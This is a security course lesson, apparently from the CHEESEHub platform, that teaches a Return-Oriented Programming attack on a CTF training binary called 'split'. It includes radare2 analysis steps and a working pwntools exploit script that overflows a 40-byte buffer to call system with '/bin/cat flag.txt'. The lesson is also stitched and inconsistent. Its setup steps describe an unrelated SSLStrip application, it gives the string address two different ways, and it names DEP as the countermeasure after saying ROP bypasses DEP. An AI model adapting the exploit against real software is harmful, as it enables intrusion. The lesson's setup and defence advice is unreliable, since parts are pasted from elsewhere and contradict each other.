 ```yaml
---
title: "Introduction to ROP Attack"
teaching: 10
exercises: 30
questions:
- "What is ROP Attack?"
- "How to build the payload?"
- "What can users do to prevent ROP from happening"
objectives:
- "Successfully conduct a ROP Attack."
keypoints:
- "User needs to know the vulnerability of the ELF file provided and know how to build the payload"
---
```


## ROP Attack

- ROP stands for "Return-Oriented Programming" and is a type of attack that allows an attacker to take control of a program's execution flow by manipulating its stack.

- ROP attacks work by finding "gadgets" in the program's code, which are short sequences of instructions that end with a "return" instruction. By chaining these gadgets together, the attacker can construct a new program flow that achieves their desired outcome.

- ROP attacks are often used to bypass security measures like DEP (Data Execution Prevention) and ASLR (Address Space Layout Randomization), which are designed to prevent traditional buffer overflow attacks.

- ROP attacks can be difficult to defend against, as they don't rely on injecting code into the program's memory like traditional attacks do. Instead, they rely on using the program's own code against itself.


### Demonstration

The demonstration on CHEESEHub illustrates the ROP attack using one machines; 
1. We will  analyze the ELF File provided to know what's the vunerabilities of the program 
2. We will build the payload based on that. We verify the success of the attack by printing the flag.txt.

> ## prerequisites
> 
> You will need to conduct the Buffer Overflow attack prior to the ROP attack. If you're not familiar with it, you could refer to [Lesson: Introduction to Buffer Overflow Attack](https://github.com/cheese-hub/BufferOverflowAttack)
> You will need to know the knowledge of [Assembly Language](https://github.com/cheese-hub/ROP-Attack/blob/main/assembly%20language.md), [pwntools](https://github.com/cheese-hub/ROP-Attack/blob/main/pwntools.md), and [Radare2](https://github.com/cheese-hub/ROP-Attack/blob/main/r2.md) prior to the ROP Attack.
{: .prereq} 

> ## Getting Started
> 
> You will need to create an account on [CHEESEHub](https://www.hub.cheesehub.org) to work through this exercise.
> Each container in this demonstration has a web interface and is accessible through your web browser, no other special software 
> is needed.
{: .callout} 

We will start by first adding the SSLStrip application:

![Add SSLStrip]({{ page.root }}/fig/sslstrip/add-sslstrip.png)

Next, click the *View* link to go to the application-specific page and start the application containers:

![Start Containers]({{ page.root }}/fig/sslstrip/start-containers.png)

> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.
{: .callout}

Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name.
## Let's get start it



## Analyze the ELF File
Here is the figure of r2 -AAAA split
![image](https://user-images.githubusercontent.com/77866826/236359081-8598cb0f-7cbf-4f48-88f9-13d4d418f775.png)

# Figure of results using li
Check the program's protections and find that NX is enabled.

## Find the vulnerabilities
using afl to list all the functions involved

After analyzing with r2, the main, pwnme, and usefulFunction functions were discovered.
3 figures of find functions

We can see in the pwnme function that there is a buffer with the size of 40 bytes but fgets allow to unput 96 bytes
So an overflow will happen and we can use as the start of the payload.

We can see that the usefulFunction is gonna to call system function with string '/bin/ls' as its parameter
After we run the program, we can see that '/bin/ls' is used.
But our goal is to use  '/bin/cat flag.txt' as its parameter so that we can print the flag. So keep searching the gadgets we want.



Let's get back to r2 and use izz to list the string inside the ELF File.

We can see that there is a string that can print the flag:/bin/cat flag.txt


And the address of this string is 0x0001060.

## The idea came out!
Now we try to make an overflow and return to the address of system function after that and try to exec the system function with the parameter /bin/cat flag.txt


## Build and Analyze the code
from pwn import *

# create a process object and load the executable binary
p = process('./split')



# determine the offset to the return address on the stack
offset = 40

# retrieve the addresses of the desired functions/strings using the ELF object
ret_address = 0x00000000004007c3


# construct the payload by padding the offset with arbitrary characters
# then appending the address of the return instruction and the address of the system call with the argument of the flag file
payload = b'A' * offset + p64(ret_address) + p64(0x00601060) + p64(0x0040074b)

# send the payload to the process and get the result
p.sendline(payload)
p.interactive()


## Catch the Flag!!
## Contermeasure?

> ## ROP Split Attack
> 
> We can use DEP as the countermeasure. Data Execution Prevention (DEP): DEP is a security feature that prevents the execution of code from memory pages that are marked as data. This can help prevent attackers from executing malicious code in the first place.

{% include links.md %}


